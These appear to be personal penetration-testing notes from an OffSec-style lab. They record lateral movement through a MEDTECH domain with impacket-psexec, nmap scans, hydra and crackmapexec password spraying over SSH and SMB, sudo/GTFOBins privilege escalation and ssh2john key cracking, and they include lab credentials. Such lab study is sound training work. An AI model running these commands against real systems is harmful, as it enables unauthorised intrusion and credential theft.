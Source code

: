 Log onto DC01 as leon
```
proxychains impacket-psexec medtech.com/leon:'rabbit:)'@172.16.188.10
```

Found credentials
```
web01: offsec/century62hisan51
```

Machines left: 120, 122, 13, 14
```
nmap -sT -A 192.168.188.120-122
sudo nmap -sC -sV -oN nmap 192.168.188.120
sudo nmap -sC -sV -oN nmap 192.168.188.122
```
192.168.188.120
- 80
- 22
192.168.188.122
- 22

loginto WEB01
```
ssh offsec@192.168.188.120
find . -name local.txt 2>/dev/null

# solution for root is 
sudo -l 
sudo -i
```

For 22, first try all the users/passwords we have found so far, then use generic wordlist
```
hydra -l users.txt -P passwords -s 22 ssh://192.168.188.122

hydra -l offsec -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.188.122

# password
ssh offsec@192.168.188.122

# solution for root is gtfobins
https://gtfobins.github.io/gtfobins/openvpn/#sudo
```

Now we just need .13 and .14
```
proxychains nmap -sT -A 172.168.188.13-14
sudo proxychains -q nmap -sT -Pn -p 22,80,8000,445,3306,3389 172.16.188.13-14

# port 22 is open for 14
# port 445 is open for 13
proxychains crackmapexec smb 172.16.188.13  -u users.txt -p passwords --continue-on-success

# find that leon:rabbit:) is admin on .13
proxychains impacket-psexec leon:'rabbit:)'@172.16.188.13

# returns no successful logins
proxychains crackmapexec ssh 172.16.188.14  -u users.txt -p passwords --continue-on-success

# these fail as they take way too long
proxychains -q crackmapexec ssh 172.16.188.14  -u users.txt -p /usr/share/wordlists/rockyou.txt --continue-on-success

proxychains hydra -l offsec -P /usr/share/wordlists/rockyou.txt -s 22 ssh://172.16.188.14

# we need to use a key we found previously 
ssh2john mario_rsa > mario-ssh.hash
```